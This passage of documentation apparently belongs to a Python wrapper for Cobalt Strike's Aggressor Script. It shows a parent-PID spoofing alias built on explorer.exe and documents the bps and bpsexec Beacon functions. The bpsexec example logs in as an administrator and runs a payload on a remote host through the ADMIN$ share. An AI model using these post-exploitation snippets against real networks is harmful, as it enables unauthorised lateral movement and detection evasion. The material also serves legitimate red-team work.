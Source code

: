                 if ($name eq "explorer.exe") {
                    [$callback: $1, $pid];
                }
            }
        }, $callback => $2));
    }

    alias prepenv {
        btask($1, "Tasked Beacon to find explorer.exe and make it the PPID");
        getexplorerpid($1, {
            bppid($1, $2);
        });
    }


## bps
```python
bps(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Task a Beacon to list processes
    Variations
    bps($1);

    Output the results to the Beacon console.
    bps($1, &callback);

    Route results to the specified callback function.
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    $2 - an optional callback function with the ps results. Arguments to the callback are: $1 = beacon ID, $2 = results
    Example
    on beacon_initial {
        bps($1);
    }


## bpsexec
```python
bpsexec(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask Beacon to spawn a payload on a remote host. This function generates an Artifact Kit executable, copies it to the target, and creates a service to run it. Clean up is included too.
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    $2 - the target to spawn a payload onto
    $3 - the listener to spawn
    $4 - the share to copy the executable to
    Example
    brev2self();
    bloginuser($1, "CORP", "Administrator", "toor");
    bpsexec($1, "172.16.48.3", "my listener", "ADMIN\$");
